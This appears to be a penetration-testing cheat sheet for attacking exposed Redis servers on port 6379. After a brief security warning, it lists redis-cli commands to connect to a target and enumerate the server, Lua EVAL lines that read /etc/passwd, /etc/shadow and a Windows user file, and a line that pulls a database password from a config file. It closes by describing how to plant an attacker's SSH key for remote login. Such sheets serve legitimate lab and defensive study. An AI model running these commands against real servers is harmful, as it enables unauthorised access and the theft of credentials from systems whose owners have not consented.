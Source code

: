 Runs on port 6379 TCP. Redis, is an open source, data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. If you do expose it to the public on usually port 6379, make sure to set password authentication.

#### Connecting to a remote redis database

```
redis-cli -h [target ip or domain]
```

#### retrieving user information

```
get user

if you get 'nil' as a value it means that 'user' key doesn't exit.
```

#### Setting a value for a key or updating it.

```
SET user motasem
```

#### Getting information about the server

```
INFO
```

#### Retrieving the redis directory

```
CONFIG get dir
```

#### Enumerating files \[Linux]

```
EVAL dofile('/etc/passwd') 0
EVAL dofile('/etc/shadow') 0
```

#### Enumerating files \[Windows]

```
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
```

#### Dumping the database password with LUA script

```
EVAL dofile('/var/data/app/db.conf');return(db.passwd); 0
```

#### Writing Your public SSH key to the server

We can generate and write our own public key and then smuggle it to the server running redis. The objective is to login with SSH to the target server as the user running Redis.
